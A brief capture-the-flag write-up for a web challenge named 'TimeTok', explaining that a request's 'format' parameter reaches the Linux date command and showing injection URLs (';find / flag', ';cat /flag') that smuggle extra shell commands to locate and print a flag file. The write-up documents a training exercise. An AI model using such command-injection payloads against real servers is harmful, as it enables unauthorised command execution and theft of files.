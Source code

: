 # TimeTok

**Category**: Web

**Points**: 225pts

**TL;DR:** inject Linux commands in the requests parameters to search for and print the flag. 💉🐧💲🔍🚩

**Sources**:  [sources_web_timetok.zip](./sources_web_timetok.zip)

**Solution:**
Checking the sources given with the challenge we noticed two things:
- 1) A flag file.
- 2) The date printed in the app was coming from the ***Linux's date command and the format in the request's parameter***. Ex: 

	 http://161.35.170.145:32055/?format=%H:%M:%S

Knowing that, we concatenated our own commands right after the date command. First to search for the flag file and then to print its content.

	http://161.35.170.145:32055/?format=';find / flag'

	http://161.35.170.145:32055/?format=';cat /flag'
